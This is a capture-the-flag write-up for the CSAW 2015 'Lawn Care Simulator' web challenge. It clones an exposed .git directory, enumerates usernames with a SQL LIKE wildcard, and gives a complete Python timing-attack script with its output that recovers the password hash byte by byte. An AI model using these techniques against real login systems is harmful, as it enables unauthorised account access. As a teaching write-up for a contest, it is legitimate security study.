

# CSAWCTF 2015: Lawn Care Simulator

----------
## Challenge details
| Contest        | Challenge     | Category  | Points |
|:---------------|:--------------|:----------|-------:|
| CSAWCTF 2015 | Lawn Care Simulator | Web |    200 |

**Description:**
>*http://54.175.3.248:8089/*

----------
## Write-up

We are presented with a webgame which allows you to grow grass by pressing a button:



There is a premium content option which requires login so we can assume that's where the flag is. Let's take a look at the webpage source:

```html

<html>
<head>
    <title>Lawn Care Simulator 2015</title>
    <script src='js/md5.js' type='text/javascript'></script>
    <script src="//code.jquery.com/jquery-1.11.3.min.js"></script>
    <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.5/js/bootstrap.min.js"></script> 
    <script src="js/grass.js"></script>
    <link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.5/css/bootstrap.min.css">
    <link rel="stylesheet" href="css/main.css">
    <script>
        function init(){
            document.getElementById('login_form').onsubmit = function() {
                var pass_field = document.getElementById('password'); 
                pass_field.value = CryptoJS.MD5(pass_field.value).toString(CryptoJS.enc.Hex);
        };
        $.ajax('.git/refs/heads/master').done(function(version){$('#version').html('Version: ' +  version.substring (0,6))});
        initGrass();
    }
    </script>
(...)
```

Notice the "*.git/refs/heads/master*" path? This indicates the live website was probably pushed as a git repo which is confirmed when we take a look at the logs in [http://54.175.3.248:8089/.git/logs/HEAD](http://54.175.3.248:8089/.git/logs/HEAD):

```
0000000000000000000000000000000000000000 d84f9619fe939785c340258695d81ea856fb8c40 John G <john@lawncaresimulator2015thegame.com> 1442706515 +0000 commit (initial): I think I'll just put mah source code riiiiighhhht here. Perfectly safe place for some source code.
```

This allows us to use git to clone the repo:

```bash
$ git clone http://54.175.3.248:8089/.git
Cloning into '8089'...
$ ls 8089/
___HINT___  index.html  jobs.html  js  premium.php  sign_up.php  validate_pass.php
```

Having obtained [the source](challenge) let's take a look at [sign_up.php](challenge/sign_up.php) to see if we can learn something about the target username and password:

```php
if ($_SERVER['REQUEST_METHOD'] === 'POST'){
    require_once 'db.php';
    $link = mysql_connect($DB_HOST, $SQL_USER, $SQL_PASSWORD) or die('Could not connect: ' . mysql_error());
    mysql_select_db('users') or die("Mysql error");
    $user = mysql_real_escape_string($_POST['username']);
    // check to see if the username is available
    $query = "SELECT username FROM users WHERE username LIKE '$user';";
    $result = mysql_query($query) or die('Query failed: ' . mysql_error());
    $line = mysql_fetch_row($result, MYSQL_ASSOC);
    if ($line == NULL){
        // Signing up for premium is still in development
        echo '<h2 style="margin: 60px;">Lawn Care Simulator 2015 is currently in a private beta. Please check back later</h2>';
    }
    else {
        echo '<h2 style="margin: 60px;">Username: ' . $line['username'] . " is not available</h2>";
    }
}
```

We see *mysql_real_escape_string* is used in an attempt to mitigate SQL injection but since the SQL query is evaluated using LIKE (and the taken username is echoed back to us in full) we can simply see if there are any usernames with 'flag' in them by trying to sign up with the username *%flag%* which gives the error message:

```
Username: ~~FLAG~~ is not available
```

Revealing our target username. Now let's take a look at [validate_pass.php](challenge/validate_pass.php):

```php
<?
function validate($user, $pass) {
    require_once 'db.php';
    $link = mysql_connect($DB_HOST, $SQL_USER, $SQL_PASSWORD) or die('Could not connect: ' . mysql_error());
    mysql_select_db('users') or die("Mysql error");
    $user = mysql_real_escape_string($user);
    $query = "SELECT hash FROM users WHERE username='$user';";
    $result = mysql_query($query) or die('Query failed: ' . mysql_error());
    $line = mysql_fetch_row($result, MYSQL_ASSOC);
    $hash = $line['hash'];

    if (strlen($pass) != strlen($hash))
        return False;

    $index = 0;
    while($hash[$index]){
        if ($pass[$index] != $hash[$index])
            return false;
        # Protect against brute force attacks
        usleep(300000);
        $index+=1;
    }
    return true;
}
?>
```

We can see our hashed password (which is [hashed client-side](challenge/js/md5.js)) first gets its length compared to the retrieved hash length and then gets evaluated on a byte-by-byte bases, returning false if a byte at a given position mismatches. At every index PHP's [usleep](http://php.net/manual/en/function.usleep.php) is called sleeping for 300000 microseconds to thwart brute-force attacks.

This approach, however, is trivially vulnerable to a remote [timing](http://codahale.com/a-lesson-in-timing-attacks/) [attack](http://blog.ircmaxell.com/2014/11/its-all-about-time.html). Given an index i within our hash if we submitted the correct byte candidate during a try it will take noticeably longer than an incorrect candidate since a correct candidate will make the routine sleep and proceed to the next index while an incorrect candidate will terminate early. This allows us to iteratively determine the correct hash using the [following timing attack script](solution/timing_attack.py) which takes the average response time (in milliseconds) of *n = 3* requests for a given byte candidate at a given position and determines whether it is a) greater than or equal to the cumulative delay (which is 300 milliseconds times the current position) and b) greater than the longest average response time so far.

```python
#!/usr/bin/env python
#
# CSAWCTF 2015
#
# @a: Smoke Leet Everyday
# @u: https://github.com/smokeleeteveryday
#

import requests
import time

current_milli_time = lambda: int(round(time.time() * 1000))

def do_request(username, candidate):
  negative_response = "Not Authorized"
  url = "http://54.175.3.248:8089"

  # To make (strlen($pass) == strlen($hash))
  password = candidate + "0"*(32-len(candidate))

  payload = {'username': username, 'password': password}
  start_time = current_milli_time()
  r = requests.post(url + '/premium.php', data=payload)
  end_time = current_milli_time()
  if(negative_response in r.text):
    return False, (end_time - start_time)
  else:
    return True, r.text

username = "~~FLAG~~"
password = ""

round_delay = 300
n = 3
cumulative_delay = round_delay

charset = "0123456789abcdef"

# We are dealing with MD5 hashes to 32 characters
for i in xrange(32):
  # Bogus request to compensate for jitter
  do_request(username, "")

  candidate = ""
  max_delay = 0
  for c in charset:
    # determine average response time over n requests
    t_average = 0
    for j in xrange(n):
      r, t = do_request(username, password + c)
      
      if r:
        print "[+]Got hash [%s]!" % (password + c)
        print t
        exit()
      else:
        t_average += t

    t_average /= n

    print "[*][%s] -> %d ms (average)" % (password + c, t_average)

    if((t_average >= cumulative_delay) and (t_average > max_delay)):
      max_delay = t_average
      candidate = c

  if(candidate == ""):
    raise Exception("[-]Couldn't find candidate for position %d..." % i)

  print "[*]Candidate for pos %d: [%s]" % (i, candidate)
  password += candidate

  # Delay increases per index (since we iterate over string)
  cumulative_delay += round_delay
```

Executing this gives us:

```bash
$ ./timing_attack.py 
[*][0] -> 284 ms (average)
[*][1] -> 253 ms (average)
[*][2] -> 251 ms (average)
[*][3] -> 336 ms (average)
[*][4] -> 258 ms (average)
[*][5] -> 241 ms (average)
[*][6] -> 541 ms (average)
[*][7] -> 259 ms (average)
[*][8] -> 262 ms (average)
[*][9] -> 247 ms (average)
[*][a] -> 246 ms (average)
[*][b] -> 243 ms (average)
[*][c] -> 249 ms (average)
[*][d] -> 243 ms (average)
[*][e] -> 238 ms (average)
[*][f] -> 240 ms (average)
[*]Candidate for pos 0: [6]
[*][60] -> 591 ms (average)
[*][61] -> 568 ms (average)
[*][62] -> 543 ms (average)
[*][63] -> 556 ms (average)
[*][64] -> 571 ms (average)
[*][65] -> 548 ms (average)
[*][66] -> 871 ms (average)
[*][67] -> 545 ms (average)
[*][68] -> 560 ms (average)
[*][69] -> 543 ms (average)
[*][6a] -> 554 ms (average)
[*][6b] -> 559 ms (average)
[*][6c] -> 572 ms (average)
[*][6d] -> 564 ms (average)
[*][6e] -> 548 ms (average)
[*][6f] -> 658 ms (average)
[*]Candidate for pos 1: [6]
[*][660] -> 861 ms (average)
[*][661] -> 939 ms (average)
[*][662] -> 844 ms (average)
(...)
<html>
<head>
    <title>Lawn Care Simulator 2015</title>
    <script src="//code.jquery.com/jquery-1.11.3.min.js"></script>
    <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.5/js/bootstrap.min.js"></script> 
    <link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.5/css/bootstrap.min.css">
</head>
<body>
<h1>flag{gr0wth__h4ck!nG!1!1!</h1></body>
</html>
```